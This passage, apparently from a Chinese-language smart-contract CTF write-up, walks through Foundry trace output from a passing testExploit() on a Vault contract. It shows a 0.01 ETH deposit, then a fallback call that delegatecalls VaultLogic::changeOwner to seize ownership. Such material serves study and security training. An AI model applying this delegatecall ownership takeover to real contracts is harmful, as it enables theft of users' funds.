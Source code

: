<img src="./2.jpg" style="zoom:70%;" />



## 📊 从测试输出中可以看到

### 🎯 测试执行流程：

```
[PASS] testExploit() (gas: 85796)
```

- 测试通过
- 总 gas 消耗：85,796

### 🔍 详细执行轨迹：

1. **存入资金 ：**

   

```
├─ [22560] Vault::deposite{value: 10000000000000000}()
│   └─ ← [Stop]
```

- 调用 deposite 函数，存入 0.01 ETH
- Gas 消耗：22,560

2. **执行攻击 ：**

```
├─ [11127] Vault::fallback(changeOwner函数调用数据)
│   ├─ [5820] VaultLogic::changeOwner(...) [delegatecall]
│   │   └─ ← [Stop]
│   └─ ← [Stop]
```
